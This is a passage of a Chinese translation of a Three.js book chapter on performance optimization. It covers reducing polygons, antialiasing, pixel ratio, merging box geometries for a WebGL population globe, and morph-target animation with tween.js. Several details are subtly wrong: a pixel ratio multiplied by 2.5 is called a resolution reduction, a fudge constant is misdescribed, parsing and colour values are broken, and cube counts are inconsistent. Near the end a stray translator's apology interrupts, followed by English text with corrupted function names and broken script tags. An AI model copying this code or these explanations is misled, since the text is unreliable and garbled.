                complete: () => {
                    this.startRandomizer()
                }
            })
        }
    },
    mounted() {
        this.startRandomizer()
    }
}
</script>

<style>
  html, body, section{
    height: 90%;
    width: 90%;
  }

  body{
    background: blue;
  }
</style>
```

## 总结

尽管还有其他可用的 3D JavaScript 库，但快速的 Google 搜索显示 Three.js 是最受欢迎的，在大多数榜单中排名第一。它在 GitHub 上拥有庞大的社区，截至撰写本文时已有超过 1,500 位贡献者，并且每月都有补丁和更新，可靠性很高。更不用说他们的官方网站上有几乎无限数量的开源示例，因此如果你在某个问题上卡住了，可能会在那里找到答案。

本章让我们了解了如何创建一个应用程序——一个粉丝 Spotify 应用程序，它可以跟踪歌曲的浏览量、下载量以及粉丝忠诚度测试。我们建议你自己去了解一下其他库，因为它们可能更适合你的目标。然而，Three.js 很可能已经具备了你的 3D 项目所需的一切。

***

# 第 5 章：代码优化

## 本章内容
- 高效编写代码
- 大型对象优化
- 动画优化
- 通用技巧

在前面的部分中，我们学习了如何使用 Three.js 创建一个 Web 应用程序。开发一个应用程序需要编写大量的代码，这些代码如果编写无误，就能以高效且正确的方式运行。

## 编写优化且高效的代码

在编写各种示例和教程的过程中，当我们测试自己的作品在较旧或低端设备上的表现时，经常会遇到许多性能问题。

### 开始测量之前

首先，我们必须能够评估应用程序的性能。我们应该使用 GitHub 上可用的 stats 模块，这是一个小型库，可以让我们在页面上添加性能监视器。

### 选择 Web 浏览器

JavaScript 是一种解释型语言，是我们 Three.js 应用程序的基础。因此，浏览器的 JavaScript 引擎会忠实地执行代码，由于市场上有多种 Web 浏览器可用，我们代码运行的速度与执行它的 Web 浏览器密切相关。
在 WebGL 和 Three.js 方面表现出色的浏览器是 Google Chrome。

### 减少场景中的多边形数量

优化过程中最基本和最初步的方法取决于场景中使用的多边形数量。在每次 3D 渲染执行过程中，处理器负责显示场景中的对象。在执行期间，需要处理的多边形数量与工作量成正比。通过这段代码，我们可以简单地展示多边形的数量：

```javascript
console.log("Number of Triangles:", renderer.info.render.triangles);
```

场景越复杂度越低，应用程序的性能就越好。我们有两种选择：

- 从场景中移除 3D 物体。
- 通过减少 3D 物体的多边形数量来简化它们。

在第一种情况中，我们只需要对场景进行筛选并删除一些 3D 对象。
第二种情况的工作更为细致。我们将使用 3D 建模程序来简化模型，尽可能多地移除面。例如，所有隐藏的、相机不可见的面都可以被移除。
某些程序，如 Blender，甚至具有自动简化 3D 结构的功能。

### 禁用抗锯齿

在渲染引擎中停用抗锯齿是一种简单的技术，可以以牺牲一些可见像素为代价来提高我们应用程序的性能。


抗锯齿用于平滑3D对象的轮廓，并在最终渲染中提供更干净的效果——它非常高效，但会增加处理器的负载！

我们使用3D渲染引擎的`antialias`属性来启用或禁用抗锯齿：

```
//启用
renderer = new THREE.WebGLRenderer( { antialias : true } );
```

```
//禁用
renderer = new THREE.WebGLRenderer( { antialias : false } );
```

禁用抗锯齿是提高Three.js项目性能的一种快速简便的方法。

## 限制3D渲染的分辨率

另一种提高Three.js应用性能的简单技巧是降低3D渲染期间的分辨率（计算的像素数量）。这个过程非常有效，但会导致图形质量显著下降。因此，我建议仅将此策略作为最后手段。我们将使用3D渲染引擎的`setPixelRatio`方法来降低分辨率。

```
//基准值
renderer.setPixelRatio( window.devicePixelRatio );
```

通过更改像素比来减少计算的像素数量，从而改变最终分辨率。因此，我们将3D渲染的分辨率提高2.5倍：

```
//降低分辨率
renderer.setPixelRatio( window.devicePixelRatio * 2.5 );
```

如你所见，帧率（fps）的提升（从24到60）是巨大的，但图形质量受到了严重影响。

请注意，这个值是可以更改的；像素比为0.8的图形质量损失会明显小于2.5，但在提升帧率方面的效率也会降低。

## Three.js优化大量对象

Three.js可以通过多种方式进行优化。合并几何体是其中一种方法的流行术语。你在Three.js中创建的每个`Mesh`都代表一个或多个系统绘制任何东西的请求。即使结果相同，创建两个对象也比绘制一个对象有更多的开销，因此合并网格是节省时间的一种技巧。

让我们看看一个可行解决方案的示例。让我们创建一个WebGL地球。使用我们的Three.js应用生成每秒60帧（fps）的3D场景可以确保流畅且愉快的体验。尽管如此，这是一个有时难以实现的目标。

第一步是收集信息。据该公司称，WebGL Globe使用的数据来自SEDAC。当我访问该网站时，我注意到人口统计数据是以网格方式呈现的。数据以60弧分的分辨率获取。然后我检查了信息。情况确实如此。

```
ncols		460
nrows		155
xllcorner	-170
yllcorner	-90
cellsize	0.099999999999995
NODATA_value	-9999
-888 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -9999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
-999 -999 -999 -999 -999 -999 -999 -999 -999 -999 -999
-999 -999...
```

几行作为键/值对，后面是每网格点一行的数据行。让我们尝试将数据绘制在2D中以确保我们理解它。首先，需要一些代码来加载文本文件。

```
async function loadFile(url) {
  const req = await fetch(url);
  return req.text();
}
```

上面的代码返回一个包含url处文件内容的Promise；之后我们需要一些代码来解析文件。

```
function parseData(text) {
  const data = [];
  const settings = {data};
  let max;
  let min;
  // 按行分割
  text.split('\n').forEach((line) => {
    // 按空白字符分割行
    const parts = line.trim().split(/\s+/);
    if (parts.length === 5) {
      // 5个部分，必须是键/值对
      settings[parts[0]] = parseFloat(parts[1]);
    } else if (parts.length > 5) {
      // 超过2个部分，必须是数据
      const values = parts.map((v) => {
        const value = parseFloat(v);
        if (value === settings.NODATA_value) {
          return undefined;
        }
        max = Math.max(max === undefined ? value : max, value);
        min = Math.min(min === undefined ? value : min, value);
        return value;
      });
      data.push(values);
    }
  });
  return Object.assign(settings, {min, max});
}
```

上面的代码返回一个对象，包含文件的所有键/值对，以及一个包含所有数据在一个大数组中的`data`属性，还有数据的最小和最大值。然后我们需要一些代码来显示信息。

```
function drawData(file) {
  const {min, max, data} = file;
  const range = max - min;
  const ctx = document.querySelector('canvas').getContext('2d');
  // 画布应与数据大小相同
  ctx.canvas.width = ncols;
  ctx.canvas.height = nrows;
  // 但显示为两倍大小，这样就不会太小
  ctx.canvas.style.width = px(ncols * 2);
  ctx.canvas.style.height = px(nrows * 2);
  // 用深灰色填充画布
  ctx.fillStyle = '#444';
  ctx.fillRect(2, 2, ctx.canvas.width, ctx.canvas.height);
  // 绘制每个数据点
  data.forEach((row, latNdx) => {
    row.forEach((value, lonNdx) => {
      if (value === undefined) {
        return;
      }
      const amount = (value - min) / range;
      const hue = 2;
      const saturation = 15;
      const lightness = amount;
      ctx.fillStyle = hsl(hue, saturation, lightness);
      ctx.fillRect(lonNdx, latNdx, 15, 15);
    });
  });
}

function px(v) {
  return `${v | 0}px`;
}

function hsl(h, s, l) {
  return `hsl(${h * 360 | 0},${s * 100 | 0}%,${l * 100 | 0}%)`;
}
```

最后，将所有内容整合在一起

```
loadFile('resources/data/gpw/gpw-v4-basic-demographic-characteristics-rev10_a000_014_2010_1_deg_asc/gpw_v4_basic_demographic_characteristics_rev10_a000_014mt_2010_cntm_1_deg.asc')
  .then(parseData)
  .then(drawData);
```

我们得到了这个结果。看起来可以工作了。让我们看看在3D中是什么样子。我们将为文件中的每个数据创建一个方块，从按需渲染的代码开始。让我们先创建一个带有世界纹理的简单球体。这是纹理的样子。还包括设置代码。

```
{
  const loader = new THREE.TextureLoader();
  const texture = loader.load('resources/images/world.jpg', render);
  const geometry = new THREE.SphereBufferGeometry(1, 64, 32);
  const material = new THREE.MeshBasicMaterial({map: texture});
  scene.add(new THREE.Mesh(geometry, material));
}
```

当纹理加载完成时，注意调用了`render`。因为我们是按需渲染而不是持续渲染，所以只需要在纹理加载时渲染一次。然后，我们必须修改之前为每个数据点创建一个点的代码，改为为每个数据点创建一个方块。

```
function addBoxes(file) {
  const {min, max, data} = file;
  const range = max - min;
  // 创建一个方块几何体
  const boxWidth = 15;
  const boxHeight = 15;
  const boxDepth = 15;
  const geometry = new THREE.BoxBufferGeometry(boxWidth, boxHeight, boxDepth);
  // 使其沿正C轴方向缩放
  geometry.applyMatrix(new THREE.Matrix4().makeTranslation(1, 1, 0.75));

  // 我们可以将经度辅助对象旋转到其B轴上的经度。
  const lonHelper = new THREE.Object3D();
  scene.add(lonHelper);
  // 将纬度辅助对象在其A轴上旋转到纬度
  const latHelper = new THREE.Object3D();
  lonHelper.add(latHelper);
  // 通过位置辅助对象将对象移动到球体的边缘
  const positionHelper = new THREE.Object3D();
```


```javascript
positionHelper.position.z = 1;
latHelper.add(positionHelper);

const lonFudge = Math.PI * .5;
const latFudge = Math.PI * -0.135;
data.forEach((row, latNdx) => {
  row.forEach((value, lonNdx) => {
    if (value === undefined) {
      return;
    }
    const amount = (value - minimum) / range;
    const material = new THREE.MeshBasicMaterial();
    const hue = THREE.Math.lerp(0.75, 0.35, amount);
    const saturation = 10;
    const lightness = THREE.Math.lerp(0.15, 10.0, amount);
    material.color.setHSL(hue, saturation, lightness);
    const mesh = new THREE.Mesh(geometry, material);
    scene.add(mesh);

    // Adjust the assistants to point at the
    // latitude and longitude coordinates
    lonHelper.rotation.y = THREE.Math.degToRad(lonNdx + file.xllcorner) + lonFudge;
    latHelper.rotation.x = THREE.Math.degToRad(latNdx + file.yllcorner) + latFudge;

    // use the world matrix of the position helper to
    // position this mesh.
    positionHelper.updateWorldMatrix(true, false);
    mesh.applyMatrix(positionHelper.matrixWorld);
    mesh.scale.set(0.005, 0.005, THREE.Math.lerp(0.01, 0.5, amount));
  });
});
```

从我们的测试绘制代码来看，逻辑基本上很直接。我们创建了一个单个的立方体，并将其中心沿正 Z 轴方向移开。如果我们不这样做，它会从中心点进行缩放，但我们希望它们是从原点向外生长。

当然，我们可以通过给立方体增加更多的 THREE 父级来解决这个问题。Object3D 对象类似于场景图（scene graphs），只不过随着节点增加，场景图会变得越来越慢。为此，我们也创建了一个由 `lonHelper`、`latHelper` 和 `positionHelper` 节点组成的微型层级结构。这些对象用于确定立方体在球体上的放置位置。

我们可以手动完成所有计算来确定在地球上的位置，但用这种方法可以将大部分数学计算交给库来处理，无需我们担心。我们为每个数据点创建 `MeshBasicMaterial` 和 `Mesh`，然后获取 `positionHelper` 的世界矩阵并将其应用于新的 `Mesh`。最后，在新的位置对 mesh 进行缩放。对于每个新立方体，我们本可以构建一套 `latHelper`、`lonHelper` 和 `positionHelper`，但那样速度会慢得多。

我们计划创建最多 $368 \times 125$ 个立方体，总计 46,000 个。实际上我们会构建大约 15,000 个，因为某些数据点被标记为“无数据”（NO DATA）。如果我们为每个立方体增加 3 个辅助对象，那么大约会有 60,000 个场景图节点。在这种情况下，js 必须计算所有位置。通过使用一套辅助对象来定位所有 mesh，我们节省了大约 40,000 次操作。

关于 `lonFudge` 和 `latFudge` 这两个术语的说明：`lonFudge` 是 $\pi/4$，相当于四分之一圈。这很合理，它仅仅表示纹理或纹理坐标在整个世界中的起始偏移量不同。另一方面，我不确定为什么它需要是 -0.135；这只是一个能让立方体与纹理对齐的数值。最后我们需要做的是调用加载器。

```javascript
loadFile('resources/data/gpw/gpw-v4-basic-demographic-characteristics-rev10_a000_014_2010_1_deg_asc/gpw_v4_basic_demographic_characteristics_rev10_a000_014mt_2010_cntm_1_deg.asc')
  .then(parseData)
  .then(addBoxes)
  .then(render);
```

因为我们是按需渲染，所以在数据加载和解析完成后，我们需要至少渲染一次。你会注意到，在上述示例中拖动以旋转场景时速度很慢。我们可以通过启动开发人员工具并激活浏览器的帧率计来检查帧率。在我的系统上，帧率低于 20 fps。

对我来说这感觉并不理想，而且我相信许多人的机器配置更低，这会使情况进一步恶化。我们应该研究如何优化。针对这个问题，我们可以将所有立方体合并成一个单一的形状。目前我们大约在绘制 19,000 个立方体。如果将它们合并为一个单一的几何体（geometry），我们将节省 18,999 次操作。以下是将立方体合并为单一形状的更新代码。

```javascript
function addBoxes(file) {
  const {min, max, data} = file;
  const range = max - min;
  // These assistants will make it simple to place the boxes
  // The lon helper can be rotated to the longitude on its Y axis
  const lonHelper = new THREE.Object3D();
  scene.add(lonHelper);
  //The latHelper is rotated on its X axis to the latitude
  const latHelper = new THREE.Object3D();
  lonHelper.add(latHelper);
  // The object is moved to the sphere's edge via the position helper
  const positionHelper = new THREE.Object3D();
  positionHelper.position.z = 10;
  latHelper.add(positionHelper);
  // Used to adjust the box's centre so that it scales from the Z axis location.
  const originHelper = new THREE.Object3D();
  originHelper.position.z = 0.5;
  positionHelper.add(originHelper);
  const lonFudge = Math.PI * .5;
  const latFudge = Math.PI * -0.135;
  const geometries = [];
  data.forEach((row, latNdx) => {
    row.forEach((value, lonNdx) => {
      if (value === undefined) {
        return;
      }
      const amount = (value - min) / range;
      const boxWidth = 1;
      const boxHeight = 1;
      const boxDepth = 1;
      const geometry = new THREE.BoxGeometry(boxWidth, boxHeight, boxDepth);

      // Adjust the assistants to point at the
      // latitude and longitude coordinates
      lonHelper.rotation.y = THREE.MathUtils.degToRad(lonNdx + file.xllcorner) + lonFudge;
      latHelper.rotation.x = THREE.MathUtils.degToRad(latNdx + file.yllcorner) + latFudge;
      // use the origin helper's world matrix to locate this geometry
      positionHelper.scale.set(0.0075, 0.0075, THREE.MathUtils.lerp(0.01, 0.5, amount));
      originHelper.updateWorldMatrix(true, false);
      geometry.applyMatrix4(originHelper.matrixWorld);
      geometries.push(geometry);
    });
  });
  const mergedGeometry = BufferGeometryUtils.mergeBufferGeometries(geometries, false);
  const material = new THREE.MeshBasicMaterial({color: 'red'});
  const mesh = new THREE.Mesh(mergedGeometry, material);
  scene.add(mesh);
}
```

我们删除了上述修改立方体几何体中心点的代码，并将其替换为 `originHelper`。之前，我们使用了同一个几何体 19,000 次。这一次，我们为每一个立方体产生新鲜的几何体，且因为我们将使用 `applyMatrix` 来偏移每个立方体几何体的顶点，所以一次性完成比分两次完成更好。最后，我们将包含所有几何体的数组传递给 `BufferGeometryUtils.mergeBufferGeometries`，它会将它们全部整合进一个单一的 mesh 中。此外，我们必须包含 `BufferGeometryUtils`。

```javascript
import * as BufferGeometryUtils from '/examples/jsm/utils/BufferGeometryUtils.js';
```

现在，至少在我的机器上，我得到了 60 fps。所以它起作用了，但因为现在是一个 mesh，我们只能使用一种材质，这意味着只能有一种颜色，而之前每个立方体都有不同的颜色。我们可以通过利用顶点颜色（vertex colors）来修正这一点。

顶点颜色为每个顶点添加一种颜色。通过为每个立方体的每个顶点分配特定颜色，每个立方体就将拥有不同的色调。

```javascript
const color = new THREE.Color();
```

## 优化大量动画对象

这是之前关于优化大量项目文章的延续。如果你之前还没有完成，请先完成接下来的步骤。在上一篇文章中，我们将大约 19,000 个立方体整合到了一个单一形状中。这样做在优化绘制 19,000 个立方体方面具有优势，但缺点是使得移动每个独立立方体变得更加困难。根据我们尝试实现的目标，有几种不同的选择。在这种情况下，让我们绘制不同的数据集并在它们之间进行动画过渡。

第一步是收集多组数据。理想情况下，我们可能会离线预处理数据，但现在，让我们加载两组数据并再生成两组。

这是我们之前的加载代码。

```javascript
'resources/data/gpw/gpw_v4_basic_demographic_characteristics_rev10_a000_014mt_2010_cntm_1_deg.asc'
  .then(parseData)
  .then(additionalBoxes)
  .then(render);
```

相反，让我们尝试这样做。

```javascript
async function loadData(info) {
  const text = await loadFile(info.url);
```


 # 140 ■ 征服 JavaScript：Three.js

```
info.file = parseData(text);
}
```

```
async function loadAll() {
  const fileInfos = [
    {name: 'male',   hueRange: [0.75, 0.35], url:
'resources/data/gpw/gpw_v4_basic_demographic_
characteristics_rev10_a000_014mt_2010_cntm_1_deg.asc'
},
    {name: 'women', hueRange: [0.95, 1.15], url:
'resources/data/gpw/gpw_v4_basic_demographic_
characteristics_rev10_a000_014ft_2010_cntm_1_deg.asc'
},
  ];
await Promise.all(fileInfos.map(loadData));
  ...
}
loadAll();
```

让我们将其改为如下形式

```
async function loadData(info) {
  const text = await loadFile(info.url);
  info.file = parseData(text);
}
 async function loadAll() {
  const fileInfos = [
    {name: 'male',   hueRange: [0.75, 0.35], url:
'resources/data/gpw/gpw_v4_basic_demographic_
characteristics_rev10_a000_014mt_2010_cntm_1_deg.asc'
},
    {name: 'women', hueRange: [0.95, 1.15], url:
'resources/data/gpw/gpw_v4_basic_demographic_
characteristics_rev10_a000_014ft_2010_cntm_1_deg.asc'
},
  ];

  await Promise.all(fileInfos.map(loadData));
  ...
}
loadAll();
```

在上述代码加载完 fileInfos 中的所有文件后，fileInfos 中的每个对象都会有一个包含已加载文件的 file 属性。稍后我们将利用 name 和 hueRange。name 将用于 UI 字段。hueRange 则用于选择映射的颜色范围。

截至 2010 年，上述两个文件似乎分别是每个区域的男性和女性人数。注意，我并不清楚这些信息是否准确，但这其实并不重要。最关键的要素是展示各种不同的数据集。

让我们再创建两个数据集。一个是男性人数多于女性人数的区域，反之则是女性人数多于男性人数的区域。

```
function mapValues(data, fn) {
  return data.map((row, rowNdx) => {
    return row.map((value, colNdx) => {
      return fn(value, rowNdx, colNdx);
    });
  });
}
```

**mapValues** 函数与常规的 Array.map 函数类似，它对数组的数组中的每个值调用函数 **fn**。参数包括该值，以及行索引和列索引。现在，让我们编写一些代码来创建一个新的文件，用于比较两个文件。

```
function makeDiffFile(baseFile, otherFile, compareFn)
{
  let min;
  let max;
  const baseData = baseFile.data;
  const otherData = otherFile.data;
  const data = mapValues(baseData, (base, rowNdx, colNdx) => {
      const other = otherData[rowNdx][colNdx];
      if (base === undefined || other === undefined) {
        return undefined;
      }
      const value = compareFn(base, other);
      min = Math.min(min === undefined ? value : min, value);
      max = Math.max(max === undefined ? value : max, value);
    return value;
});
// 复制 baseFile 并用新数据替换 minimum、
maximum 和 data
  return {...baseFile, min, max, data};
}
```

上述代码使用 **mapValues** 创建一组新的数据，这是 **compareFn** 函数的比较结果。它还记录了最小和最大比较结果的值。最后，它创建一个新文件，该文件具有与 **baseFile** 相同的属性，但更新了 min、max 和 data 值。让我们用它来创建两个新的数据集。

```
{
  const menInfo = fileInfos[0];
  const womenInfo = fileInfos[1];
  const menFile = menInfo.file;
  const womenFile = womenInfo.file;

  function amountGreaterThan(a, b) {
    return Math.max(a - b, 0);
  }
  fileInfos.push({
    name: '>50% men',
    hueRange: [0.6, 1.1],
    file: makeDiffFile(menFile, womenFile, (men, women) => {
        return amountGreaterThan(men, women);
    }),
  });
  fileInfos.push({
    name: '>50% women',
    hueRange: [0.0, 0.4],
    file: makeDiffFile(womenFile, menFile, (women, men) => {
        return amountGreaterThan(women, men);
    }),
  });
}
```

现在我们将提供一个用户界面，让用户可以在这些数据集之间进行选择。首先我们需要一些 UI 的 html。

```
<body>
  <canvas id="c"></canvas>
  <div id="ui"></div>
</body>
```

一些 CSS 将其定位在左上角：

```
#ui {
  position: absolute;
  left: 1em;
  top: 1em;
}
#ui>div {
  font-size: 20pt;
  padding: 1em;
  display: inline-block;
}
#ui>div.selected {
  color: red;
}
```

然后，我们将遍历每个文件，为每组数据创建一组合并的立方体，以及一个元素，当鼠标悬停在该元素上时，将显示该组数据，同时隐藏其他所有组。

```
// 显示选中的数据，隐藏其余的
function showFileInfo(fileInfos, fileInfo) {
  fileInfos.forEach((info) => {
    const visible = fileInfo === info;
    info.root.visible = visible;
    info.elem.className = visible ? 'selected' : '';
  });
  requestRenderIfNotRequested();
}
const uiElem = document.querySelector('#ui');
fileInfos.forEach((info) => {
  const boxes = addBoxes(info.file, info.hueRange);
  info.root = boxes;
  const div = document.createElement('div');
  info.elem = div;
  div.textContent = info.name;
  uiElem.appendChild(div);
  div.addEventListener('mouseover', () => {
    showFileInfo(fileInfos, info);
  });
});
// 显示第一组数据
showFileInfo(fileInfos, fileInfos[0]);
```

与前一个示例相比，还有一个修改是 **addBoxes** 现在必须接受 **hueRange** 参数。

```
function addBoxes(file, hueRange) {
    ...
    // 计算颜色
        const hue = THREE.MathUtils.lerp(...hueRange, amount);
    ...
}
```

我们现在应该能够显示四组数据。要切换数据集，将鼠标移到标签上或点击它们即可。

有几个奇怪的数据点值得一提。那些是怎么回事？无论如何，我们如何在这四组数据之间进行过渡？

有许多建议。

- 直接使用 *Material.Opacity* 在它们之间淡入淡出
  - 这种技术的难点在于立方体完全重叠，导致 **z-fighting** 问题。我们可能可以通过调整深度函数和混合模式来解决这个问题。我们应该研究一下。
- 增大我们想要查看的数据集的大小，同时减小其他数据集的大小。
  - 由于所有立方体都从行星中心开始，如果我们将它们缩放到 1.0 以下，它们会沉入地面。这起初看起来是个好主意，但问题是所有低高度的立方体几乎会立即消失，而且在新数据集缩放到 1.0 之前不会显示出来。这使得过渡效果不够理想。一个复杂的自定义着色器或许可以解决这个问题。
- 使用 *Morphtargets*（变形目标）。

**Morphtargets** 是一种为几何体中的每个顶点提供多个值，并在它们之间进行变形或 lerp（线性插值）的方法。Morphtargets 最常用于 3D 角色的面部动画，但它们并不限于此。

让我们研究一下 **morphtargets**。

我们仍然会为每组数据创建一个几何体，但我们会提取 position 属性并将其用作 morphtarget。

首先，让我们将 **addBoxes** 改为只创建并返回合并的几何体。

```
const {min, max, data} = file;
const range = max - min;
...
return BufferGeometryUtils.mergeBufferGeometries(
    geometries, false);
}
```

然而，这里还有另一项任务需要完成。每个 morphtarget 必须具有**完全相同**的顶点数量。一个目标中的顶点 #123 必须在所有其他目标中都有对应的顶点 #123。但是，不同的数据集可能包含没有数据的点，在这种情况下不会为该点创建立方体，导致另一组数据中也没有对应的顶点。因此，我们需要检查所有数据集，如果有任何一个数据集包含数据，则生成某些内容；如果所有数据集都没有数据，则不生成任何内容。让我们从后者开始。

```
function dataMissingInAnySet(fileInfos, latNdx,
lonNdx) {
  for (const fileInfo of fileInfos) {
    if (fileInfo.file.data[latNdx][lonNdx] ===
undefined) {
      return true;
    }
  }
  return false;
}
function makeBoxes(file, hueRange, fileInfos) {
  const {min, max, data} = file;
  const range = max - min;
  ...
  const geometries = [];
  data.forEach((row, latNdx) => {
    row.forEach((value, lonNdx) => {
        if (dataMissingInAnySet(fileInfos, latNdx,
lonNdx)) {
            return;
        }
        const amount = (value - min) / range;
    ...
```

现在，我们将不再使用 **addBoxes**，而是使用 **makeBoxes** 并设置 **morphtargets**。

```
// 为每个数据集创建几何体
const geometries = fileInfos.map((info) => {
  return makeBoxes(info.file, info.hueRange,
fileInfos);
});

// 使用第一个几何体作为基础
// 并将所有几何体添加为 morphtargets
const baseGeometry = geometries[0];
baseGeometry.morphAttributes.position = geometries.
map((geometry, ndx) => {
  const attribute = geometry.getAttribute('position');
  const name = `target${ndx}`;
  attribute.name = name;
  return attribute;
});
const material = new THREE.MeshBasicMaterial({
  vertexColors: true,
});
const mesh = new THREE.Mesh(baseGeometry, material);
scene.add(mesh);
const uiElem = document.querySelector('#ui');
```


```javascript
fileInfos.forEach((info) => {
  const div = document.createElement('div');
  info.elem = div;
  div.textContent = info.name;
  uiElem.appendChild(div);
  function show() {
    showFileInfo(fileInfos, info);
  }
  div.addEventListener('mouseover', show);
  div.addEventListener('touchstart', show);
});
// 显示第一组数据
showFileInfo(fileInfos, fileInfos[0]);
```

我们以上述方式为每个数据集创建了几何体，将第一个作为基础，然后从每个几何体中提取位置属性，并将其作为变形目标（morph target）添加到基础几何体的位置中。

现在我们需要调整各个数据集的显示和隐藏方式。我们需要改变变形目标的影响值，而不是显示或隐藏网格。对于想要看到的数据集，影响值需要为 1；对于不想看到的，影响值为 0。

我们可以简单地将它们改为 0 或 1，但那样就不会有动画效果；它会直接跳变，这与我们现在的效果相同。我们可以编写自己的动画代码，这很简单，但由于原始的 webgl globe 使用了动画库，所以我们继续使用它。

需要先引入该库。

```javascript
import * as THREE from '/build/three.module.js';
import * as BufferGeometryUtils from '/examples/jsm/utils/BufferGeometryUtils.js';
import {OrbitControls} from '/examples/jsm/controls/OrbitControls.js';
import {TWEEN} from '/examples/jsm/libs/tween.min.js';
```

然后，为了对影响值进行动画处理，创建一个 Tween。

```javascript
// 显示选中的数据，隐藏其余数据
function showFileInfo(fileInfos, fileInfo) {
  const targets = {};
```

```javascript
fileInfos.forEach((info, i) => {
    const visible = fileInfo === info;
    info.elem.className = visible ? 'selected' : '';
    targets[i] = visible ? 1 : 0;
});
const durationInMs = 1000;
new TWEEN.Tween(mesh.morphTargetInfluences)
    .to(targets, durationInMs)
    .start();
requestRenderIfNotRequested();
}
```

还需要在渲染循环的每一帧中调用 TWEEN.update()，但这暴露了一个问题。"tween.js" 是为连续渲染设计的；然而我们使用的是按需渲染。我们可以切换到持续绘制，但按需渲染有时更方便，因为当没有任何变化时可以节省电量，所以我们来看看能否让它实现按需动画。

为此，我们将创建一个 TweenManager。它将用于创建和 {%} 录 Tweens。它包含一个 update 方法，如果还需要再次调用则返回 true，如果所有动画都已完成则返回 false。

```javascript
class TweenManager {
    constructor() {
        this.numTweensRunning = 0;
    }
    _handleComplete() {
        --this.numTweensRunning;
        console.assert(this.numTweensRunning >= 0);
    }
    createTween(targetObject) {
        const self = this;
        ++this.numTweensRunning;
        let userCompleteFn = () => {};
        // 在我们自己的新 tween 中安装自定义的 onComplete 回调
        const tween = new TWEEN.Tween(targetObject).
            onComplete(function(...args) {
                self._handleComplete();
                userCompleteFn.call(this, ...args);
            });
```

```javascript
// 替换 tween 的 onComplete 函数本身
// 这样如果用户提供了回调，我们就可以调用它
  tween.onComplete = (fn) => {
    userCompleteFn = fn;
    return tween;
  };
  return tween;
}
update() {
  TWEEN.update();
  return this.numTweensRunning > 0;
}
}
```

我们将创建一个实例来使用它。

```javascript
function main() {
  const canvas = document.querySelector('#c');
  const renderer = new THREE.WebGLRenderer({canvas});
  const tweenManager = new TweenManager();
...
```

我们将用它来创建我们的 Tweens。

```javascript
// 显示选中的数据，隐藏其余数据
function showFileInfo(fileInfos, fileInfo) {
  const targets = {};
  fileInfos.forEach((info, i) => {
    const visible = fileInfo === info;
    info.elem.className = visible?  'selected' : '';
    targets[i] = visible?  1 : 0;
  });
  const durationInMs = 1000;
  tweenManager.createTween(mesh.morphTargetInfluences)
    .to(targets, durationInMs)
    .start();
  requestRenderIfNotRequested();
}
```

然后，如果仍有动画在进行，我们将更新渲染循环以更新 tweens 并继续渲染。

```javascript
function render() {
    renderRequested = false;
    if (resizeRendererToDisplaySize(renderer)) {
        const canvas = renderer.domElement;
        camera.aspect = canvas.clientWidth / canvas.clientHeight;
        camera.updateProjectionMatrix();
    }
    if (tweenManager.update()) {
        requestRenderIfNotRequested();
    }
    controls.update();
    renderer.render(scene, camera);
}
render();
```

这看起来可以工作了，但是我们丢失了颜色。Three.js 不支持变形目标颜色，原始的 webgl globe 也有这个问题。它本质上只为第一个数据集创建颜色。任何额外的数据集，无论差异多大，都使用相同的颜色。来看看我们能否添加颜色变形支持。这可能比较脆弱。虽然编写我们自己的着色器是最不容易出错的选择，但我认为学习如何修改内置着色器会有所帮助。

第一步是让代码从每个数据集的几何体中提取颜色作为 BufferAttribute。

```javascript
// 使用第一个几何体作为基础
// 并将所有几何体添加为变形目标
const baseGeometry = geometries[0];
baseGeometry.morphAttributes.position = geometries.map((geometry, ndx) => {
    const attribute = geometry.getAttribute('position');
    const name = `target${ndx}`;
    attribute.name = name;
    return attribute;
});
```

```javascript
const colorAttributes = geometries.map((geometry, ndx) => {
  const attribute = geometry.getAttribute('color');
  const name = `morphColor${ndx}`;
  attribute.name = `color${ndx}`;  // 仅用于调试
  return {name, attribute};
});
const material = new THREE.MeshBasicMaterial({
  vertexColors: true,
});
```

然后需要修改 Three.js 的着色器。我们可以将函数赋给 Three.js 材质中的 `Material.onBeforeCompile` 属性。它允许我们在将材质着色器传递给 WebGL 之前对其进行修改。实际上，所提供的是 Three.js 特有的着色器语法，包含许多着色器代码块（shader chunks），Three.js 会将每个代码块替换为实际的 GLSL 代码。传递给 `onBeforeCompile` 的未经过修改的顶点着色器代码如下所示。

```glsl
#include <common>
#include <uv_pars_vertex>
#include <uv2_pars_vertex>
#include <envmap_pars_vertex>
#include <color_pars_vertex>
#include <fog_pars_vertex>
#include <morphtarget_pars_vertex>
#include <skinning_pars_vertex>
#include <logdepthbuf_pars_vertex>
#include <clipping_planes_pars_vertex>
void main() {
    #include <uv_vertex>
    #include <uv2_vertex>
    #include <color_vertex>
    #include <skinbase_vertex>
    #ifdef USE_ENVMAP
    #include <beginnormal_vertex>
    #include <morphnormal_vertex>
    #include <skinnormal_vertex>
    #include <defaultnormal_vertex>
    #endif
```

```glsl
#include <begin_vertex>
#include <morphtarget_vertex>
#include <skinning_vertex>
#include <project_vertex>
#include <logdepthbuf_vertex>
#include <worldpos_vertex>
#include <clipping_planes_vertex>
#include <envmap_vertex>
#include <fog_vertex>
}
```

查看剩余的代码块后，我们想要替换 `morphtarget_pars_vertex我很抱歉，第一次输出有误。以下是正确的翻译：

```javascript
fileInfos.forEach((info) => {
  const div = document.createElement('div');
  info.elem = div;
  div.textContent = info.name;
  uiElem.appendChild(div);
  function show() {
    showFileregistration(fileInfos, info);
  }
  div.addEventListener('mouseover', show);
  div.addEventListener('touchstart', show);
});
// show the first set of data
showFileregistration(fileInfos, fileInfos[0]);
```

We created geometry for each data set above, used the first as the base, and then extracted a position attribute from each geometry and added it as a morph target to the base geometry for position.

Now we need to adjust how the various data sets are shown and hidden. We need to change the morph targets' influence instead of showing or hiding a mesh. We need an influence of 1 for the data set we want to see, and a zero for the ones we don't want to/script>

<script>
// show the first set of data
showFileregistration(fileInfos, fileInfos[0]);
</script>

We previously created geometry for each data set, using the first as the base, and then extracted the position attribute from each geometry, adding it as a morph target to the base geometry for position.

